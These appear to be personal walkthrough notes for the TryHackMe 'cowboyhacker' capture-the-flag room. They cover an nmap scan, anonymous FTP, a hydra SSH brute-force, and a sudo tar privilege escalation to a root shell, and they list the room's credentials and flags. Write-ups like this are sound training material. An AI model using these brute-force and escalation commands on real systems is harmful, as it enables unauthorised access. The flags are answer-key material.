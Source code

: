 https://tryhackme.com/room/cowboyhacker	

- run nmap on open ports `nmap -sC -sV <IP>`
	- 21: ftp
		- -> ftp-anon
		- vsFTPd 3.0.3
	- 22: ssh
		- OpenSSH 7.2p2 
	- 80: http
		- Apache httpd 2.4.18

- go though webapp:
	-  conversation -> possible usernames
		- spike, jet, ed/edward, ein, faye

- ftp:
	- log in as **anonymous** `ftp <IP>`
	- get:
		- locks.txt -> list of potentional passwords
		- task.txt -> new username ~ lin

- bruteforce ssh w/ hydra
	- `hydra -t 4 -L <list_of_usenames> -P <list_of_passwords> -vV <IP> ssh`
	- -> lin:RedDr4gonSynd1cat3 

- ssh with creds from above
	- -> get the user.txt flag -> THM{CR1M3_SyNd1C4T3} 

- root the machine
	- `sudo -l` -> possibility to run /bin/tar
	- => GTRFo bins -> ```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
	- get root.txt -> THM{80UN7Y_h4cK3r}  